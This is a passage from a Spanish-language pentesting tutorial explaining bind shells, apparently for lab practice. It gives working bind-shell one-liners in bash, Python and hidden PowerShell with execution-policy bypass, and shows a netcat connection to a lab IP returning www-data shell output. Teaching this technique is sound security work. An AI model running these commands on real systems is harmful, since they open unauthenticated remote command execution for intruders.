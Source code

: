 ### BIND SHELL

Otro tipo de shell es un Bind Shell. A diferencia de un Reverse Shell que se conecta a nosotros, tendremos que conectarnos a él en el puerto de escucha de los objetivos. 

Una vez que ejecutamos un comando Bind Shell, comenzará a escuchar en un puerto en el host remoto y vinculará el shell de ese host, es decir, Bash o PowerShell, a ese puerto. Tenemos que conectarnos a ese puerto con netcat, y obtendremos el control a través de un shell en ese sistema. 
___

### COMANDO BIND SHELL

Una vez más, podemos utilizar [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Bind%20Shell%20Cheatsheet.md) para encontrar un comando adecuado para iniciar nuestro bind shell

>Nota: iniciaremos una conexión de escucha en el puerto '1234' en el host remoto, con IP '0.0.0.0' para que podamos conectarnos desde cualquier lugar. 

Los siguientes son comandos confiables que podemos usar para iniciar una bind shell:

Code: `bash`
~~~
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
~~~

Code: `python`
~~~
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
~~~

Code: `powershell`
~~~
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
~~~
___

### CONEXION NETCAT

Una vez que ejecutamos el comando bind shell, deberíamos tener un shell esperándonos en el puerto especificado. Ahora podemos conectarnos a él.

Podemos usar netcat para conectarnos a ese puerto y obtener una conexión con el shell: 

Conexion netcat
~~~
 nc 10.10.10.1 1234

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
~~~
